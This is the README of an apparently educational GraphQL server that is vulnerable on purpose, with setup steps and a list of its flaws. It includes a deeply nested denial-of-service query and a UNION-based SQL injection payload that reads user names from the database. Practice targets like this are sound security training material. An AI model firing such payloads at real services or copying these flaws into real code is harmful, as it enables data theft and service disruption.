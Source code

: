 # graphql-vulns
Implementation of intentionally vulnerable GraphQL server.

# Setup & run 

1. Install deps
    ```shell script
    npm ci
    ```

2. Setup PostgreSQL database with db/db.sql file, change .env parameters if needed

4. Run server
    ```shell script
    node server.js
    ```

# Vulnerabilities

-   Invalid access control for queries and mutations
    
-   Nested queries
    ```
    query {
        products {
        id
        name
        shop {
            products {
                shop {
                    products {
                        id
                        shop {
                            id
                            products {
                                name
                                shop {
                                    id
                                }
                            }
                        }
                    }
                }
            }
        }
        }
    }
    ```
  
-   SQL injection
    ```
    query {
      searchProducts(namePrefix: "U%' UNION ALL SELECT 1 AS ID, u.name as name, 1 as shop_id FROM users u --"
      ) {
        id
        name
      }
    }
    ```